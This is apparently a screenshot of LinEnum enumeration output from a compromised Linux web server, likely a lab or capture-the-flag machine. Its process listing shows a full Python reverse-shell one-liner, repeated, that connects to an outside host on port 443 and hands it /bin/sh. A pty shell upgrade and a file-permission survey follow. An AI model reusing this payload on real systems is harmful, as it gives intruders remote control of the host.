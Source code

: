     www-data   4123  0.0  0.9  39980  9840 ?        S    22:40   0:00 python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.39",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    www-data   4124  0.0  0.0   4508   708 ?        S    22:40   0:00 /bin/sh -i
    www-data   4131  0.0  0.6  32168  6776 ?        S    22:42   0:00 python -c import pty;pty.spawn("/bin/bash")
    www-data   4132  0.0  0.3  18220  3364 pts/1    Ss   22:42   0:00 /bin/bash
    root       4196  0.0  0.0      0     0 ?        S    22:55   0:00 [kworker/0:0]
    root       4197  0.0  0.0      0     0 ?        S    22:55   0:00 [kworker/u256:2]
    root       4337  0.0  0.3  49792  3416 pts/1    S+   23:26   0:00 sudo python
    www-data   4338  0.0  0.0   4508   704 ?        S    23:26   0:00 sh -c cd /var/www/html/dev; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.39",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 2>&1
    www-data   4339  0.0  0.9  39980  9848 ?        S    23:26   0:00 python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.39",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    www-data   4340  0.0  0.0   4508   792 ?        S    23:26   0:00 /bin/sh -i
    www-data   4344  0.0  0.6  32168  6868 ?        S    23:27   0:00 python -c import pty;pty.spawn("/bin/bash")
    www-data   4345  0.0  0.3  18220  3260 pts/2    Ss   23:27   0:00 /bin/bash
    www-data   5344  0.0  0.4  19028  4068 pts/2    S+   23:57   0:00 bash LinEnum.sh
    www-data   5345  0.0  0.3  19072  3532 pts/2    S+   23:57   0:00 bash LinEnum.sh
    www-data   5346  0.0  0.0   4384   660 pts/2    S+   23:57   0:00 tee -a
    www-data   5547  0.0  0.2  19056  2896 pts/2    S+   23:57   0:00 bash LinEnum.sh
    www-data   5548  0.0  0.2  34424  2940 pts/2    R+   23:57   0:00 ps aux
    
    
    [00;31m[-] Process binaries and associated permissions (from above list):[00m
    -rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
    lrwxrwxrwx 1 root root       4 Dec  4  2017 /bin/sh -> dash
    -rwxr-xr-x 1 root root  326224 Jan 18  2017 /lib/systemd/systemd-journald
    -rwxr-xr-x 1 root root  618520 Jan 18  2017 /lib/systemd/systemd-logind
    -rwxr-xr-x 1 root root  141904 Jan 18  2017 /lib/systemd/systemd-timesyncd
    -rwxr-xr-x 1 root root  453240 Jan 18  2017 /lib/systemd/systemd-udevd
    -rwxr-xr-x 1 root root   44104 Dec 16  2016 /sbin/agetty
    lrwxrwxrwx 1 root root      20 Dec  4  2017 /sbin/init -> /lib/systemd/systemd
    -rwxr-xr-x 1 root root  224208 Jan 12  2017 /usr/bin/dbus-daemon
    -rwxr-xr-x 1 root root   44528 Feb  9  2017 /usr/bin/vmtoolsd
    -rwxr-xr-x 1 root root  164928 Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
    -rwxr-xr-x 1 root root  662496 Sep 18  2017 /usr/sbin/apache2
    -rwxr-xr-x 1 root root   44472 Apr  5  2016 /usr/sbin/cron
    -rwxr-xr-x 1 root root  599328 Apr  5  2016 /usr/sbin/rsyslogd
    
    
    [00;31m[-] /etc/init.d/ binary permissions:[00m
    total 252
    drwxr-xr-x  2 root root 4096 Dec  4  2017 .
    drwxr-xr-x 89 root root 4096 Dec  4  2017 ..
    -rw-r--r--  1 root root 1355 Dec  4  2017 .depend.boot
    -rw-r--r--  1 root root  471 Dec  4  2017 .depend.start
    -rw-r--r--  1 root root  667 Dec  4  2017 .depend.stop
    -rw-r--r--  1 root root 2427 Jan 19  2016 README
    -rwxr-xr-x  1 root root 2210 Apr  5  2016 apache-htcacheclean
    -rwxr-xr-x  1 root root 8087 Apr  5  2016 apache2
    -rwxr-xr-x  1 root root 6250 Oct  4  2016 apparmor
    -rwxr-xr-x  1 root root 1275 Jan 19  2016 bootmisc.sh
    -rwxr-xr-x  1 root root 3807 Jan 19  2016 checkfs.sh
    -rwxr-xr-x  1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
    -rwxr-xr-x  1 root root 9353 Jan 19  2016 checkroot.sh
    -rwxr-xr-x  1 root root 1343 Apr  4  2016 console-setup
    -rwxr-xr-x  1 root root 3049 Apr  5  2016 cron
    -rwxr-xr-x  1 root root 2813 Dec  1  2015 dbus
    -rwxr-xr-x  1 root root 1105 Mar 15  2016 grub-common
    -rwxr-xr-x  1 root root 1336 Jan 19  2016 halt